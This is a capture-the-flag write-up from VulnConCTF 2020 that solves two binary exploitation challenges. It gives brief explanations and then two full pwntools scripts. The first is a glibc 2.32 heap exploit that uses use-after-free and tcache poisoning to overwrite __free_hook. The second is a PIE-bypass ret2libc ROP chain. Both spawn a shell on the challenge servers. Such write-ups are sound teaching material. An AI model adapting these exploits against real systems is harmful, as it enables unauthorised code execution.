 # VulnConCTF 2020

I did some pwn for fun on Friday evening :^)


## the good old time
This is a very generic heap challenge, on glibc 2.32.

We can add, edit, show, and delete.

Deleting does not null out the pointer in the array, and showing just calls puts() on the chunk.


To leak libc, we can free a chunk into unsorted bin. However the fwd and bk ended in a 0x00 so I added another chunk that was bigger to get the first chunk into the smallbin. Then, I just showed the chunk to leak libc.


To write to free hook, we can simply tcache poison. In glibc 2.32, tcache pointer mangling was introduced, meaning we have to do a bit more than just edit the fwd of a free chunk in tcache. I googled a bit and found a script that can both encode and decode mangled pointers. Very cool.

```python
from pwn import *

e = ELF("./thegoodoldtime")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.32.so")

context.binary = e
context.terminal = ["konsole", "-e"]

p = process([e.path])
p = remote("35.246.22.179", 49155)

context.log_level="debug"
gdb.attach(p, """c""")


def new(idx, size, data):
    p.sendlineafter("exit\n", "1")
    p.sendlineafter(":", str(idx))
    p.sendlineafter(":", str(size))
    p.sendlineafter(":", data)

def edit(idx, data):
    p.sendlineafter("exit\n", "2")
    p.sendlineafter(":", str(idx))
    p.sendlineafter(":", data)

def show(idx):
    p.sendlineafter("exit\n", "3")
    p.sendlineafter(":", str(idx))
    
    
def delete(idx):
    p.sendlineafter("exit\n", "4")
    p.sendlineafter(":", str(idx))


# uwu https://github.com/mdulin2/mangle/blob/master/mangle.py

# Mangle the ptr
def encode_ptr(fd_ptr, storage_location, print_hex=False):
        if(print_hex):
                return hex((storage_location >> 12) ^ fd_ptr)
        return (storage_location >> 12) ^ fd_ptr


# Demangle the ptr
def decode_ptr(mangled_ptr,storage_location, print_hex=False):
        if(print_hex):
                return hex((storage_location >> 12) ^ mangled_ptr)
        return (storage_location >> 12) ^ mangled_ptr



# this thing is op
def recover_ptrs(mangled_ptr, loc_final_bits=0x0, print_hex=False):

        count = 0x0 
        tmp_value = mangled_ptr
        while(tmp_value & 0xFFFFFF000 != 0x0):
                tmp_value = tmp_value >> 4
                count +=1 

        # Get the top-most 12 bits to initialize the process
        initial = mangled_ptr & (0xFFF * (0x10 ** count))
        final_ptr = initial
        final_location = initial
        known_bits = initial >>  (count * 4) 

        for iteration in range(1, (count/3) + 1):

                exp_amount = (count - (3 * iteration))
                shift_amount = (count - (3 * iteration)) * 4

                # Get the 12 bits to the right of the top-most 12 bits of the value.
                tmp_value = mangled_ptr & (0xFFF * (0x10 ** exp_amount))

                # Shift the values over. Then, operate on them.

                ptr_shift = tmp_value >> shift_amount

                # Operate on the bits in order to get the ptr bits at the specific location.
                known_bits = ptr_shift ^ known_bits

                # Add the new known_bits to the total for the final_ptr
                new_bits = known_bits << shift_amount

                # The 'known_bits' are the location in which the ptr was stored at that we are getting.
                final_ptr = final_ptr + new_bits


        # The least significant twelve bits are unknown for the storage location. So, we remove them.
        final_location =  final_location & 0xFFFFFFFFFFFFF000

        # If the final bits of the location are given, we add them back in.
        if(loc_final_bits):
                final_location += (loc_final_bits & 0xFFF)

        if(print_hex):
                final_ptr = hex(final_ptr) 
                final_location = hex(final_location)
        return final_ptr, final_location


new(1, 0x550, "AAAA")


new(2, 0x50, "BBBB")


new(3, 0x50, "BBBB")


delete(1)



show(1)

delete(2)
delete(3)



new(4, 0x700, "CCCC")

show(1)


p.recv()
libc.address = u64((p.recv(6)).ljust(8, "\x00")) - 0x1e4040

print("libc base", hex(libc.address))




show(3)
p.recv()


mangled_fwd = u64((p.recv(6)).ljust(8, "\x00"))

print("mangled fwd", hex(mangled_fwd))

thing, _ = recover_ptrs(mangled_fwd)

tcache = thing - 0x810

print("tcache at", hex(tcache))

edit(3, p64(encode_ptr(libc.sym["__free_hook"], tcache)))


new(5, 0x50, "AAAA")
new(6, 0x50, p64(libc.sym["system"]))


new(7, 0x20, "/bin/sh")
delete(7)

p.interactive()
```


## Wheretogo

This is a classic ret2libc, but there is PIE enabled. Thankfully, there is a function that prints the address of main. We can brute force 1 nibble of ASLR by partially overwriting the return address on the stack to jump to the function. Annoyingly the binary calls write() not puts(), so we have to look around for some different gadgets to set up the registers to leak the libc. Then it is just ret2libc.

```python
from pwn import *

e = ELF("./where_to_go")

libc = ELF("./libc.so.6")

context.binary = e
context.terminal = ["konsole", "-e"]


while True:
    #p = process([e.path])
    p = remote("35.232.11.215", 49155)


    context.log_level="debug"
    #


    p.sendafter("!", "A"*40+"\x99\x48")
    
    try:
        p.recvline()
        main = u64(p.recv(6).ljust(8, "\x00"))
        break
    except EOFError:
        p.close()
        continue



pie = main-0x7da

print("main", hex(main))
print("pie base", hex(pie))

gdb.attach(p, """break * system\nc""")




p.sendafter("!", "A"*40 + p64(pie+0x943) + p64(1) + p64(pie+0x941) + p64(pie + e.got["__libc_start_main"]) + p64(0) + p64(pie+e.plt["write"]) + p64(main))

p.recvline()

libc.address = u64(p.recv(6).ljust(8, "\x00")) - 0x21b10

print("libc base", hex(libc.address))



p.sendafter("!", "A"*40 + p64(pie+0x943) + p64(next(libc.search("/bin/sh"))) + p64(pie+0x666) + p64(libc.sym["system"]))



p.interactive()
```
